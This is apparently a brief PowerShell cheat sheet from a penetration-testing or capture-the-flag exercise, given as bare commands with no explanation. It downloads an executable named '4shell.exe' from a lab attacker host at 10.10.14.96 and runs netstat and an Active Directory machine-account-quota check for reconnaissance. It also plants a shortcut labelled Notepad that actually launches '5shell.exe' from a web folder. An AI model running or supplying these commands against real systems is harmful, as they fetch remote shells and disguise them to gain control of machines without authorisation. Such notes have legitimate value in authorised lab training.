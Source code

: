 ```Powershell
Invoke-WebRequest -Uri http://10.10.14.96:8000/4shell.exe -OutFile 4shell.exe
```

```Powershell
netstat -aon
```

```Powershell
Get-ADObject -Identity ((Get-ADDomain).distinguishedname) -Properties ms-DSMachineAccountQuota
```

Shortcuts
```Powershell
$targetPath = "C:\xampp\htdocs\5shell.exe"
$shortcutPath = "C:\Common Applications\Notepad.lnk"
$shell = New-Object -ComObject WScript.Shell
$shortcut = $shell.CreateShortcut($shortcutPath)
$shortcut.TargetPath = $targetPath
$shortcut.Save()
```